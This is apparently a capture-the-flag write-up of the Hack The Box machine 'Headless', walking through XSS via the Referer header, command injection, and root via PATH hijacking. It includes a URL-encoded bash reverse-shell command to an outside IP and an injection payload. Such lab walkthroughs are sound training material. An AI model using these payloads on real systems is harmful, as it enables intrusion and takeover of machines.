










# Headless Writeup - by Thammanant Thamtaranon  
- Headless is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.8`  

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.8:5000`  
  
- One interesting path we discovered was:  
  `http://10.10.11.8:5000/support`

## Exploitation  
- We initially tested for XSS vulnerabilities through standard input fields.  
  
- This failed, but testing the **Referer** header instead proved successful.  
  
  
- We modified the payload to exfiltrate cookies:  
  ``  
  
- This gave us the session cookie and access to `/dashboard`.  

- While analyzing a command form using Burp Suite, we attempted command injection using `;+id`, which worked.  
  
- We upgraded the payload to gain a reverse shell using:  
  `/bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/10.10.16.11/4444+0>%261'`  
- This gave us a shell as the user `dvir`.  
  
- We then captured the **user flag**.

## Privilege Escalation  
- Running `sudo -l`, we discovered a script that can be executed as root.  

- The script referenced a file called `initdb.sh` using a relative path:  
  `if ! pgrep -x "initdb.sh" &>/dev/null;`
  
- This is vulnerable to **PATH hijacking**, allowing us to place our own malicious `initdb.sh` in the current directory.  
- We created a shell script, named it `initdb.sh`, gave it execution permission, and run the command `sudo /usr/bin/syscheck`.  
  
- We received a shell as `root` and obtained the **root flag**.
